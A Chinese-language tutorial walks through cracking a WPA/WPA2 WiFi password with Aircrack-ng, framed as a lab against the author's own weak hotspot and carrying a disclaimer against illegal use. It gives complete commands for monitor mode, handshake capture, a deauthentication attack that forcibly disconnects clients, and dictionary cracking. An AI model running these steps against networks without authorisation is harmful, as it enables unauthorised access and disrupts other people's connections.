









# 使用 Aircrack-ng 暴力破解 WPA/WPA2 加密的 WiFi
## 1.写在前面
目前，主流的 WiFi 加密方式是 WPA/WPA2，使用 Aircrack-ng 工具可以捕获 WPA/​WPA2 握手包并对其进行暴力破解。本文介绍如何使用此工具来对附近的 WiFi 进行监听、抓包和暴力破解。<br>

感兴趣的读者可以提前学习一下 WPA/​WPA2 加密方式的细节，以及无线监听的原理。<br>

在这篇文章中，我们自己建立一个 WPA/​WPA2 加密的、密码不是很强的 WiFi 热点作为我们的目标，然后使用 Air­crack-ng 工具对其进行破解并拿到口令（即 WiFi 密码）。<br>

本文中破解 WiFi 的方法仅用于学习和交流，不得用于非法用途！<br>

## 2.准备
必备环境<br>
```
1.支持监听模式的无线网卡；
2.运行 Linux 的设备（本文以 VMware 虚拟机下的 Centos 为例）；
3.一个包含了常见弱口令的字典。
```

## 3.安装 Aircrack-ng 套件
### 3.1.apt直接从软件源安装
```
sudo apt install aircrack-ng
```

### 3.2.centos源码安装
去官网[https://www.aircrack-ng.org/](https://www.aircrack-ng.org/)<br>
<br>
[安装方法也在官网](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_aircrack-ng_from_source)<br>
```
 tar -zxvf aircrack-ng-1.5.2.tar.gz
 cd aircrack-ng-1.5.2
 autoreconf -i
 ./configure --with-experimental
 make
 make install
 ldconfig
```

## 4.开启监听模式
#### 4.1.首先执行以下命令查看网卡信息：
```
iwconfig
```
如下图所示，我的无线网卡名称为 “wlan0”<br>
<br>

#### 4.2.杀掉冲突进程：
如果不执行这一步，则有可能不能成功开启监听模式。在以下工作开始前务必执行这一步。<br>
```
airmon-ng check kill
```
可以多执行几遍<br>

#### 4.3.为无线网卡开启监听模式：
```
airmon-ng start wlan0
```
此时如果再执行 iw­con­fig，会发现 wlan0 已经变成了处于 Monitor 模式的 wlan0­mon<br>
<br>

## 4.抓包

#### 4.1.执行以下命令，获取所有附近 AP 的信息：
```
airodump-ng wlan0mon
```
<br>
在列表中可以看到 SSID 为 “%XJC%” 的目标热点。此时按下 Ctrl + C 停止抓包，这样信息就不会一直刷新而影响观看了。<br>
现在，记下目标热点的 BSSID（热点 MAC 地址）：8C:A6:DF:DC:7A:BA。也记下 CH（信道）：11。<br>


#### 4.2.监听目标热点
执行以下命令，其中 ``[网卡]`` 代表处于监听模式的网卡名称，``[信道]`` 就是上面看到的 CH 的值，``[BSSID]`` 是目标的 BSSID，``[文件路径]`` 代表要保存抓包结果的文件。<br>
```
airodump-ng wlan0mon --ivs -c 11 --bssid 8C:A6:DF:DC:7A:BA -w wifi_cap
```
- --bssid 是路由器的mac地址
- -w 是写入到文件longas中
- -c 11 是频道11
- --ivs 是只抓取可用于破解的IVS数据报文

#### 4.3.抓握手包
抓包过程中，如果有客户端连接到目标热点，我们就可以抓到 WPA 握手包，如下图所示。抓到握手包后就可以 Ctrl + C 退出了。<br>
<br>

> 注意，**只有开始抓包后客户端连接热点** ，我们才可能抓到握手包，注意这个顺序。在本次实验中，你可以手动将你的手机连入热点。当然，也可使用渗透工具使已连接的客户端强制重连，研究 aireplay-ng 工具的使用。<br>

如果没有抓到握手包,则如下图:<br>

> 这里为了获得破解所需的WPA2握手验证的整个完整数据包，我们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，我们也就有机会捕获到包含WPA2握手验证的完整数据包了。<br>

此处需要新开一个shell：<br>
<br>
```
aireplay-ng -0 1 -a 8C:A6:DF:DC:7A:BA -c E0:94:67:9E:B6:4B wlan0mon
```
- -0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等
- -a 后跟路由器的mac地址
- -c 后跟客户端的mac地址

这时候我们回到刚才的那个抓包页面<br>
<br>
出现之后攻击阶段与抓包阶段就结束了，可以中断抓包了。<br>
<br>

## 5.破解阶段
```
aircrack-ng -w top3000.txt wifi_cap-01.ivs
```
- top3000.txt是我们的字典
<br>

## 6.结束
```
airmon-ng stop wlan0
```
